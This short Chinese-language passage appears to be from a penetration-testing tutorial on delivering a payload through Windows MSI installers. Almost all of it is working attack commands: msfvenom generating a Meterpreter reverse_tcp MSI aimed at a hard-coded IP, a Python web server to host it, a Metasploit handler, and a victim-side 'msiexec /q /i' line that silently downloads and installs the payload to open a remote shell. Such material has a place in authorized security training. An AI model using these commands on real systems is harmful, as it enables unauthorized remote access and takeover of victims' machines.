 Windows系统安装有一个Windows安装引擎， `MSI`包使用msiexe.exe来解释安装。

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=139.155.49.43 lport=9999 -f msi > 1.msi
python3 -m http.server
```

```bash
msfconsole
msf > handler -p windows/x64/meterpreter/reverse_tcp -H 172.17.0.2 -P 9999
```

**靶机操作**

```bash
msiexec /q /i http://139.155.49.43:8000/1.msi
```

